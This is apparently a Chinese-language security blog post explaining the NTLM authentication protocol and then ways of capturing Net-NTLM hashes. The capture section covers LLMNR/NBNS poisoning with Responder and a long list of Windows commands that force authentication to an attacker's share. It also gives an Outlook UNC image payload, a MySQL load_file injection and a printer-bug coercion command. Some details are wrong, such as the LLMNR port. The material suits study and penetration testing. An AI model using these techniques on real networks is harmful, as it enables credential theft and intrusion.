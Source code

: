 ```yaml
---
layout: post
title: NTLM协议
tags: Protocol,windows
---
```


# NTLM协议

## 概念

### Hash

windows 内部只保存密码的 hash，并不保存明文密码，本机用户的hash保存在本地的 SAM 文件中，域内用户的 hash 保存在域控的 NTDS.dit 文件中。

windows导出密码时，密码格式通常为：

```
Username:group id:LM Hash:NTLM Hash:::
```

LM Hash 是 windows 早期用的加密算法，为了解决 LM 加密和身份验证中固有的安全弱点，1993年微软引进了 NTLM 协议。从 Windows7 和 Windows Server 2008 开始，默认情况下系统只会存储 NTLM Hash。

### 计算

+ 密码转十六进制格式
+ Unicode 编码
+ MD4

### 身份验证

NTLM 验证是一种 Challenge/Response 验证机制，由三种消息组成：协商、质询、验证

+ 客户端向服务端发送协商信息，主要包含客户端支持和服务器请求的功能列表
+ 服务器响应质询消息，包含服务器支持和同意的功能列表，以及服务器产生的 Challenge
+ 客户端接收到 Challenge 后，用用户 Hash 与 Challenge 进行加密运算得到 Response，将 Response、username、Challenge 作为验证信息发给服务器
+ 服务器拿到验证信息后，用 Challenge 和用户 Hash 进行加密得到 Response2，与验证信息中的 Response 进行比较
+ 如果用户 Hash 存储在域控中，用户服务器就会通过 NetLogon 协议联系域控，建立一个安全通道，将 协商、质询和验证消息都发给域控，这个过程也被称为 Pass Through Authenication 认证流程。域控使用 Challenge 和用户 Hash 进行加密得到 Response2， 与验证消息中的 Response 比较

### NTLM v1/v2

验证中的响应有六种，其中的 NTLM v1 是基于 NT 客户端发送的，包括 Windows 2000 和 XP， NTLM v2 是在 Windows NT Service Pack4 中引入的响应类型。

Challenge/Response验证机制里面type3 response里面包含Net-ntlm hash，NTLM v1响应和NTLMv2响应对应的就是Net-ntlm hash分为Net-ntlm hash v1和Net-ntlm hash v2。

#### NTLM v1

v1 是8位的 Challenge，它的加密算法是将16字节的 NTLM Hash 填充为21个字节，然后分成3组，作为3DES加密算法的3组密钥，加密 Server 发送来的 Challenge，三个密文值连接起来得到 Response。

Net-ntlm hash v1

```
username::hostname:LM response:NTLM response:challenge
```

#### NTLM v2

v2是16位的 Challenge，加密算法：

+ 将 Unicode 后的大写用户名与 Unicode 后的身份验证目标（指定的域或服务器名称）拼在一起，使用 16字节 NTLM Hash 作为密钥，得到一个值
+ 构建 blob 信息
+ 用 NTLM v2 Hash 作为密钥，将 HMAC-MD5 消息认证代码算法加密来自质询的 Challenge 与 Blob 拼接在一起，得到一个16字节的 NTProofStr
+ 将 NTProofStr 与 Blob 拼接起来得到 Response

Net-ntlm hash v2

```
username::domain:challenge:HMAC-MD5:blob
```



## NTLM 请求

### LLMNR 和 NBNS

windows 解析域名顺序：

+ hosts
+ DNS
+ LLMNR
+ NBNS

#### LLNMR

LLMNR 是一种基于 DNS 数据包的格式，监听端口为 UDP：5535，IPv4 的广播地址为 224.0.0.252，IPv6 的广播地址为 FF02:0:0:0:0:0:1:3 或 FF02::1:3。LLNMR 采取的是广播的形式，当主机访问一个不存在的域名时，在本机 hosts 中没找到，DNS也无法解析，就会通过 LLMNR 协议进行广播，通过 Responder 进行响应，告知域名解析IP就可以进行类似 ARP 投毒的 LLMNR 投毒，进而获取主机的 NTLM v2 Hash。

#### NBNS

NBNS 全称为 NetBIOS Name Service。NetBIOS 解析过程为：

+ 检查本地 NetBIOS 缓存
+ 如果缓存中没有且配置了 WINS 服务器，就会向 WINS 服务器发出请求
+ 如果没有配置 WINS 服务器或 WINS 服务器无响应就会向当前子网域发送广播
+ 广播无回应就会读取本地的 lmhosts 文件（C:\Windows\System32\drivers\etc\）

在没有配置 WINS 服务器的情况下，NBNS 也会进行广播，所以也存在 NBNS 投毒。



### 使用 Responder 抓取NTLM v2 Hash

在kali下执行

```
responder -I eth0 -v
```

目标机器执行

```
net use \\123\1
```

网络上的用户需要访问没有 IP 或用户类型分析名的 share，就会触发到网络的 LLMNR 请求，responder 就会伪装成该访问的机器，从而获得 NTLM v2 Hash

![image-20210618105818213](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210618105818213.png)



### 发起 NTLM 请求

#### 执行命令

```
 net.exe use \hostshare 
 attrib.exe \hostshare  
 bcdboot.exe \hostshare  
 bdeunlock.exe \hostshare  
 cacls.exe \hostshare  
 certreq.exe \hostshare #(noisy, pops an error dialog) 
 certutil.exe \hostshare  
 cipher.exe \hostshare  
 ClipUp.exe -l \hostshare  
 cmdl32.exe \hostshare  
 cmstp.exe /s \hostshare  
 colorcpl.exe \hostshare #(noisy, pops an error dialog)  
 comp.exe /N=0 \hostshare \hostshare  
 compact.exe \hostshare  
 control.exe \hostshare  
 convertvhd.exe -source \hostshare -destination \hostshare  
 Defrag.exe \hostshare  
 diskperf.exe \hostshare  
 dispdiag.exe -out \hostshare  
 doskey.exe /MACROFILE=\hostshare  
 esentutl.exe /k \hostshare  
 expand.exe \hostshare  
 extrac32.exe \hostshare  
 FileHistory.exe \hostshare #(noisy, pops a gui)  
 findstr.exe * \hostshare  
 fontview.exe \hostshare #(noisy, pops an error dialog)  
 fvenotify.exe \hostshare #(noisy, pops an access denied error)  
 FXSCOVER.exe \hostshare #(noisy, pops GUI)  
 hwrcomp.exe -check \hostshare  
 hwrreg.exe \hostshare  
 icacls.exe \hostshare   
 licensingdiag.exe -cab \hostshare  
 lodctr.exe \hostshare  
 lpksetup.exe /p \hostshare /s  
 makecab.exe \hostshare  
 msiexec.exe /update \hostshare /quiet  
 msinfo32.exe \hostshare #(noisy, pops a "cannot open" dialog)  
 mspaint.exe \hostshare #(noisy, invalid path to png error)  
 msra.exe /openfile \hostshare #(noisy, error)  
 mstsc.exe \hostshare #(noisy, error)  
 netcfg.exe -l \hostshare -c p -i foo
```

#### outlook

邮件支持 html 格式，同时图片路径支持 UNC，所以可以构造 payload：

```
<img src="\\192.168.1.1\outlook">
```

#### Mysql

Mysql注入可以进行带外通信将数据带出来,前提是具备load_file权限，且没有secure_file_priv的限制，LOAD_FILE 也支持 UNC 路径

```
select load_file('\\\\192.168.1.1\\mysql');
```

#### 打印机

Windows 默认启用 MS-RPRN 协议，勇于打印机客户端和服务端的通信，任何经过身份验证的域成员都可以连接到远程服务器的打印服务（spoolsv.exe），并请求对一个新的打印作业进行更新，令其将该通知发送给指定目标。之后它会将立即测试该连接，即向指定目标进行身份验证（攻击者可以选择通过Kerberos或NTLM进行验证）。

```
ython printerbug.py 域/用户名:密码@打印机服务ip 回连ip
```